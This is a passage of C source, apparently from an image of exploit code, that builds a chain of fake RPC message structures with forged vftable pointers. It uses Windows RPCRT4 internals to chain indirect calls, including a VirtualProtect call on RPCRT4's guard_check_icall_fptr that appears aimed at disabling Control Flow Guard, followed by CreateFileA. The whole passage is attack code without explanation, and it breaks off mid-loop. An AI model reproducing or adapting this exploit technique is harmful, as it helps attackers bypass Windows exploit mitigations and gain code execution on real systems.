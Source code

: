 ```C
	for (int i = 0; i < INDIRECT_CALL_CHAIN_LEN; i++) {
		char* ProcDesc = NULL;
		WORD* Param = NULL;
		node = payload + i * 0x100;
		node[0] = vftable;
		node[0x58 / 8] = start + (i + 1) * 0x100 + 0x50;
		pRpcMsg = payload + i * 0x100;
		pRpcMsg->Buffer = start + i * 0x100 + 0x60;
		pRpcMsg->ProcNum = i;
		pRpcMsg->RpcInterfaceInformation = ServerInterface;
		pRpcMsg->DataRepresentation = 0x10;
		FmtStringOffset[i] = ProcStringCursor;

		printf("[+] Node[%x]: address=%llx, vftable=%llx, Buffer=%llx, RPC_SERVER_INTERFACE=%llx, next=%llx\n", i, start+i*0x100, vftable, start+i*0x100+0x60, ServerInterface, start + (i+1)*0x100+0x50);

		ProcString[ProcStringCursor + 0] = 0x1;//HandleType = 0x1
		ProcString[ProcStringCursor + 1] = 0;//InterpreterFlags = 0
		*(short*)&ProcString[ProcStringCursor + 2] = 0;// return value == 0
		switch (i) {//i=>ProcNum,  StackSize = BufferLength, Buffer + Bufferlen => ProcDesc
		case 1://VirtualProtect(RPCRT4!_guard_check_icall_fptr, 8, PAGE_READWRITE, VALID_ADDRESS)
			*(short*)&ProcString[ProcStringCursor + 4] = 0x20;//StackSize <- Buffer Length
			pRpcMsg->BufferLength = 0x20;
			//*(__int64*)&ProcString[0x10 * i + 6] = start + i * 0x100 + 0x60 + 0x20 + 0x10;//0x20 -> bufferlen, ProcDesc Pointer
			//ProcDesc = &pRpcMsg->Buffer + 0x30;//after ProcDescPointer
			ProcDesc = &ProcString[ProcStringCursor + 6];
			ProcDesc[4] = 0;//ignore return value
			ProcDesc[5] = pRpcMsg->BufferLength/4;//NumberParams
			Param = ProcDesc + 6;
			ProcStringCursor += 6 + 6;//ProcString + ProcDesc len
			break;

		case 2://GetCopy(this, dest)
			*(short*)&ProcString[ProcStringCursor + 4] = 0x10;//StackSize <- Buffer Length
			pRpcMsg->BufferLength = 0x10;
			ProcDesc = &ProcString[ProcStringCursor + 6];
			ProcDesc[4] = 0;//ignore return value
			ProcDesc[5] = pRpcMsg->BufferLength/4;//NumberParams
			Param = ProcDesc + 6;
			ProcStringCursor += 6 + 6;//ProcString + ProcDesc len
			break;

		case 3://CreateFileA
			*(short*)&ProcString[ProcStringCursor + 4] = 0x8 * 7;//StackSize <- Buffer Length
			pRpcMsg->BufferLength = 0x8 * 7;
			ProcDesc = &ProcString[ProcStringCursor + 6];
			ProcDesc[4] = 0;//ignore return value
			ProcDesc[5] = pRpcMsg->BufferLength/4;//NumberParams
			Param = ProcDesc + 6;
			ProcStringCursor += 6 + 6;//ProcString + ProcDesc len
			break;

		default:
			break;
		}
		if (Param && ProcDesc && pRpcMsg->BufferLength) {//ProcDesc is Not NULL and StackSize is bigger than 0 => have parameter
			printf("\t[+] Param Info: Num of param=%d, StackSize=0x%x, \n", ProcDesc[5], pRpcMsg->BufferLength);
			*(__int64*)&ProcDesc[6] = (__int64)pRpcMsg->Buffer + 0x10 + *(short*)&ProcString[0x10 * i + 4];//address of buffer + bufferlen+ ProcDescLen
```